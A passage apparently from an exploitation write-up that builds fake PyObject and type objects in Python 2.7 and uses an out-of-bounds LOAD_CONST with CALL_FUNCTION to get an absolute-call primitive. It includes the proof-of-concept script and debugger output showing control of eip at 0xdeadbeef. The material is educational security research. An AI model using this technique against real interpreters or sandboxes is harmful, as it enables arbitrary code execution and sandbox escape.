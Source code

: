So basically the idea to use *CALL_FUNCTION* was a good one, but we will need to craft two different objects:

1. The first one will be a *PyObject* with *ob_type* pointing to the second object
2. The second object will be a *_typeobject* with *tp_call* the address you want to call

This is fairly trivial to do and will give us an absolute-call primitive without crashing the interpreter: s.w.e.e.t.

```python absolute call via CALL_FUNCTION
import opcode
import types
import struct

def pshort(s):
  return struct.pack('<H', s)

def puint(s):
  return struct.pack('<I', s)

def a():
  pass

PyStringObject_to_char_array_offset = 20
second_object = 'A' * 0x40 + puint(0xdeadbeef)
addr_second_object = id(second_object)
addr_second_object_controled_data = addr_second_object + PyStringObject_to_char_array_offset

first_object = 'AAAA' + puint(addr_second_object_controled_data)
addr_first_object = id(first_object)
addr_first_object_controled_data = addr_first_object + PyStringObject_to_char_array_offset

consts = ()
s = puint(addr_first_object_controled_data)
address_s = id(s) + PyStringObject_to_char_array_offset
address_consts = id(consts)
offset = ((address_s - address_consts - 0xC) / 4) & 0xffffffff

a.func_code = types.CodeType(
  0, 0, 0, 0,
  chr(opcode.opmap['EXTENDED_ARG'])  + pshort(offset >> 16)     +
  chr(opcode.opmap['LOAD_CONST'])    + pshort(offset & 0xffff)  +
  chr(opcode.opmap['CALL_FUNCTION']) + pshort(0),
  consts, (), (), '', '', 0, ''
)
a()
```

And we finally get our primitive working :-)

```text call 0xdeadbeef
(11d0.11cc): Access violation - code c0000005 (!!! second chance !!!)
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Program Files (x86)\Python\Python275\python27.dll - 
eax=01cc1030 ebx=00000000 ecx=00422e78 edx=00000000 esi=deadbeef edi=02e62df4
eip=deadbeef esp=0027e78c ebp=02e62df4 iopl=0         nv up ei ng nz na po cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010283
deadbeef ??              ???
```
